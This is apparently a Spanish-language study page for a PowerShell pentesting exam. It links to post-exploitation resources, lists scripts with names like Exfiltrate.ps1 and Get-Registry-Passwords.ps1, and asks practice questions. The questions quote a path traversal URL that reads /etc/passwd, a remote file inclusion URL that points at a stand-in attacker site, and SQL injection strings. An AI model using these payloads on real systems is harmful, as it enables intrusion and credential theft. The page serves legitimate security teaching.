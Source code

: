 # ¿Qué información se puede recopilar dentro de un sistema?
https://www.jesusninoc.com/2016/10/09/windows-post-exploitation-cmdlets-execution-powershell/
https://github.com/jesusninoc/Seguridad/blob/master/Recopilar%20informaci%C3%B3n%20acerca%20de%20los%20equipos

# ¿Qué información se puede recopilar dentro de una empresa?
http://papelesdeinteligencia.com/7-maneras-de-recolectar-datos-para-tu-empresa-que-todavia-no-conoces/

# Scripts for powershell for pentesters exam
https://github.com/salu90/PSFPT
- BruteForce-Basic-Auth.ps1
- Exfiltrate.ps1
- Exploits.ps1
- Get-Registry-Passwords.ps1
- GitHub-Interactive-Shell.ps1
- Registry-Malware.ps1
- Scan-Directory-Permissions.ps1
- Scan-Network-Shares.ps1
- Simple-Server.ps1
- Transfer-File-PsRemoting.ps1

# Brute Force

## Contraseñas seguras con PowerShell
https://www.jesusninoc.com/contrasenas-seguras-con-powershell/
## Brute Force
https://www.jesusninoc.com/brute-force/
## Ataque de fuerza bruta con Burp Suite Intruder
#https://www.jesusninoc.com/2016/02/23/ataque-de-fuerza-bruta-con-burp-suite-intruder/

# Preguntas posibles en examen
- Resuelve en PowerShell lo siguiente:
  - Dime si hay un antivirus instalado
  - Cómo compruebas que están funcionando los equipos de una red
  - Realiza un programa que cifre de forma sencilla
  - Simula la recuperación de un dato que se ha perdido
  - Sabes detectar impresoras en la red?, cómo?
  - Realiza un login que incorpore una función de hash
  - Realizar un sistema de copia de seguridad
  - Ver si un programa se está ejecutando viendo el nombre del producto
- ¿Cómo se llama esto?
  - http://vulnerable_host/preview.php?file=../../../../etc/passwd
  - http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
- ¿Y esto?
  - http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 
  - SELECT * FROM Users WHERE Username='1'OR '1'= '1'AND Password='1'OR '1'= '1'

